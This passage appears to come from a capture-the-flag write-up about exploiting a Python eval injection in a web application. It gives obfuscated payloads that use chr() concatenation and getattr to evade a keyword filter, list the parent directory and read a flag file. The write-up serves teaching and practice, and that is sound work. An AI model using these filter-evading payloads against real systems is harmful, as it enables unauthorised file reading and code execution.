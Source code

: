 **Equivalent code:**
```python
os.listdir("..")
```

This command lists the contents of the parent directory to locate the flag file, which revealed `flag.txt` in the parent directory.

### Step 2: Reading the Flag File

Once the flag file location was confirmed, the second payload was used to read its contents:

```python
getattr(getattr(__import__(chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)),chr(111)+chr(112)+chr(101)+chr(110))(chr(46)+chr(46)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)),chr(114)+chr(101)+chr(97)+chr(100))()
```

### Complete Exploitation Process

1. **Identify the eval vulnerability** in the web application
2. **Test the sanitization** by trying blocked keywords and patterns
3. **Discover chr() function is allowed** and string concatenation works
4. **Perform reconnaissance** using `os.listdir("..")` to find the flag file location
5. **Convert the desired payloads** to chr() sequences:
   - First: `os.listdir("..")` for file discovery
   - Second: `open("../flag.txt").read()` for flag extraction
   - Convert each character to its ASCII decimal value
   - Use `chr()` and `+` to build strings dynamically
6. **Use getattr() for method access** to avoid dot notation
7. **Submit the payloads** sequentially and retrieve the flag

## Complete Payload Reference

### Payload 1: Directory Listing (Reconnaissance)
```python
getattr(__import__(chr(111)+chr(115)), chr(108)+chr(105)+chr(115)+chr(116)+chr(100)+chr(105)+chr(114))(chr(46)+chr(46))
```
**Equivalent:** `os.listdir("..")`
**Purpose:** List files in parent directory to locate the flag file

### Payload 2: Flag File Reading
```python
getattr(getattr(__import__(chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)),chr(111)+chr(112)+chr(101)+chr(110))(chr(46)+chr(46)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)),chr(114)+chr(101)+chr(97)+chr(100))()
```
**Equivalent:** `open("../flag.txt").read()`
**Purpose:** Read the contents of the flag file

## Payload Generator Tool
